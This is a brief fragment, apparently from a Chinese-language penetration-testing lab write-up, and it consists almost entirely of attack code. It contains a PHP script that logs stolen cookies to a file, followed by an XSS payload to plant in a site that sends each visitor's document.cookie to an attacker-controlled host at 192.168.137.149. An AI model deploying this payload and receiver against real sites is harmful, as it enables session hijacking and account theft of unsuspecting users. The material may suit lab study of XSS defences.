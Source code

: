 ```cookie
<?php
	$cookie = $_GET['cookie'];
	$log = fopen("cookie.txt","a");
	fwrite($log,$cookie . "\n");
	fclose($log);
?>
```

## 通过渗透机植入xss代码

~~~script
<script>window.open('http://192.168.137.149/cookie_rec.php?cookie='+document.cookie')</script>
~~~





